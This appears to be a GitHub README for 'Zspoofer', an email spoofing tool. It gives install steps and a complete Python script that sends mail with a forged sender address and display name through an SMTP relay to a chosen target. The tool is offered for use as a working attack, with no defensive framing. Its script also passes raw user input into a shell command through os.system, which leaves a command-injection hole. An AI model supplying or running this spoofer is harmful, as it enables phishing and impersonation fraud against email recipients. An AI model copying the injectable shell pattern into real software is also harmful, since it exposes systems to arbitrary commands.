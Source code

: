 # Zspoofer
Email spoofer by zereza

## Installation:
```bash
sudo apt install sendemail
git clone https://github.com/0x9B0x7A/zspoofer/
cd zspoofer
pip3 install -r requirements.txt
```
## Usage:
You must have an account in [sendinblue.com](https://www.sendinblue.com).

In order to use the script you will need to modify the script and put your [sendinblue](https://www.sendinblue.co) credentials here:
```python
#!/usr/bin/env python3
import os
from termcolor import colored
def main():
    print(colored(''' _________  ____   ___   ___  _____ 
|__  / ___||  _ \ / _ \ / _ \|  ___|
  / /\___ \| |_) | | | | | | | |_   
 / /_ ___) |  __/| |_| | |_| |  _|  
/____|____/|_|    \___/ \___/|_|    ''', 'red'))
    print(colored("\n\nTool developed by zereza\n\n", 'yellow', attrs=['bold']))
    username = "USERNAME FROM SENDINBLUE HERE"
    password = "PASSWORD FROM SENDINBLUE HERE"
    target = input(colored("The target's email  ---->    ", 'green'))
    name = input(colored("\n\nThe sender's name [OPTIONAL]  ---->   ", 'green'))
    sender = input(colored("\n\nThe sender of the email   ---->   ", 'green'))
    subject = input(colored("\n\nThe email subject  ---->   ", 'green'))
    message = input(colored("\n\nThe email message  ---->   ", 'green'))
    
    if name == '':
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" &>/dev/null')
        print(colored('Sent :)', 'yellow'))
    else:
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" -o message-header="From: '+name+' <'+sender+'>" &>/dev/null')
        print(colored('Sent :)', 'yellow'))
    
if __name__ == '__main__':
    main()
```
